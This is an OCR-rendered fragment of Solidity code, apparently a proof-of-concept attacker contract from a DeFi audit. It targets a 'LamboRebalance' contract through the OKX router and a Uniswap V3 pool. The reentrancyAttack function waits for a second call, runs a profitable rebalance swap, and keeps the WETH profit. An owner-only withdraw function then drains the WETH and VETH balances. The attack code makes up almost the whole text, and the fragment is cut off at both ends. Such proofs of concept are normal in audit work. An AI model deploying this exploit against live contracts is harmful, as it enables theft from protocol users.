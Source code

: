 ```solidity
    address public OKXRouter;
    address public OKXTokenApprove;
    address public lamboRebalance;
    address public WETH;
    address public owner;
    address public uniswapPool;

    bool public secondTime = false;
    
    constructor(address _veth, address _WETH, address _OKXRouter, address _OKXTokenApprove, address _lamboRebalance, address _uniswapPool) {
        VETH = _veth;
        OKXRouter = _OKXRouter;
        OKXTokenApprove = _OKXTokenApprove;
        lamboRebalance = _lamboRebalance;
        WETH = _WETH;
        uniswapPool = _uniswapPool;  

        owner = msg.sender;
    }
    
    function reentrancyAttack() public {
        // Check if this is the second time the function is called
        // This is to avoid starting the attack when the attacker funds the malicious pool
        // and when the redeem is called on the malicious pool
        if (!secondTime) {    
            secondTime = true;
            return;
        }
    
        // Preview the rebalance to get the amountIn required for the swap
        (bool result, , uint256 amountIn, ) = LamboRebalanceOnUniwap(payable(lamboRebalance)).previewRebalance();
        require(result, "Rebalance not profitable");
    
        // Prepare the parameters for the swap
        uint256 _v3pool = uint256(uint160(uniswapPool));
        uint256[] memory pools = new uint256[](1);
        pools[0] = _v3pool;
    
        // Approve the OKXTokenApprove contract to spend the required amountIn of VETH
        IERC20(VETH).approve(address(OKXTokenApprove), amountIn);
    
        // Perform the swap on the legit Uniswap V3 pool using the OKXRouter
        IDexRouter(OKXRouter).uniswapV3SwapTo(uint256(uint160(address(this))), amountIn, 0, pools);
    
        // Calculate the profit by subtracting the amountIn and 1 wei from the WETH balance
        uint256 profit = IERC20(WETH).balanceOf(address(this)) - (amountIn + 1 wei);
        require(profit > 0, "No profit in reentrancyAttack");
    
        // Send 1 wei of WETH to the lamboRebalance contract so it is in benefit and doesn't revert
        // Keep the remaining profit in this contract
        IERC20(WETH).transfer(address(lamboRebalance), amountIn + 1 wei);
    }
    
    function withdraw() public {
        require(msg.sender == owner, "Not owner");
    
        // Transfer the entire WETH balance to the caller (owner)
        IERC20(WETH).transfer(msg.sender, IERC20(WETH).balanceOf(address(this)));
    
        // Transfer the entire VETH balance to the caller (owner)
        IERC20(VETH).transfer(msg.sender, IERC20(VETH).balanceOf(address(this)));
```